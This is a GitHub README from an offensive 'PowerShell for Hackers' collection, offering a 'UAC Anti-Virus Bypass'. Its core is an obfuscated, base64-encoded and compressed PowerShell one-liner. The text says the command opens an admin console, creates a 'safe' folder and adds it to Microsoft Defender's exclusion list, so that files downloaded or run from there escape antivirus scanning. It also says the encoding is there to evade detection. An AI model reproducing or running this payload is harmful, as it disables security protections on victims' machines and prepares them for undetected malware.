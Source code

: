 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# User-Access-Control Anti-Virus Bypass

## Description

A UAC AV bypass 

## The Function

### [FUNCTION-NAME] 

To avoid the Anti-Virus blocking this I had to heavily obfuscate and encode this command (test in a sand box environment need be)
This command will open a powershell console with admin privledges and create a directory called "safe" in the Document folder 
This directory that is created will be added to the Microsoft Defender Exclusions list which makes it ignored by AntiVirus scans 
Any files downloaded or ran from here will be ignored by the anti virus

```
iNVOke-ExpResSion (NEw-oBjECt  SysTem.Io.COmPreSSioN.dEFLaTESTrEaM( [SySTeM.IO.MEmorysTReAm][SYstEm.COnvERT]::frOMBasE64sTrINg('hZBPT8JAFMS/yqbhWsBIvBAOsxVao5UsDURIL/3z2KotbbrFqp/efSUmnvD0drIzvze7o6zKxUI4qZItfIVEyS94gOpxh1WPnZLf8LfItJ1WW18DP0QCWbDeQH6wzpXs2JdqOUUQ4gWcW+KgZYl7A6XkO/OflHxGAGxh91j/cB884KDkmTkHBQ1vio2SM9Yp5A3zbC+7Z8a5AoHtCetbhlhrmWFl+/UXjp0Z/Cn73+Br7JXVS4W0tzrYcv+SOTku77H+Av6e9y6c+Wgd+gunqXtqTUFlOaZPEi6dMjHif3LmLWmR5PYUPHrbOKqPXZ+0FHtlYgyZeFxXOo44Ga8bOsVZXVXJKXfEJBfMFpPjf4jKuIa67vWkTeyd2x21Q9phtMP5Y53bBQ21XG4edUnbuVFJ1AjXiNsBn1NJHV0t6fxWue7922aI/AA='),[sYStem.Io.comPreSsiOn.CoMpREssiOnMode]::DEcomPResS )|fOReaCh{ NEw-oBjECt sYStEm.iO.STrEamrEaDeR( $_ , [syStEM.texT.eNCOdiNG]::AsciI ) }| fOreAch{$_.reAdToENd( )})

```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

No payloads are currently using this bypass. Some will be soon.


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
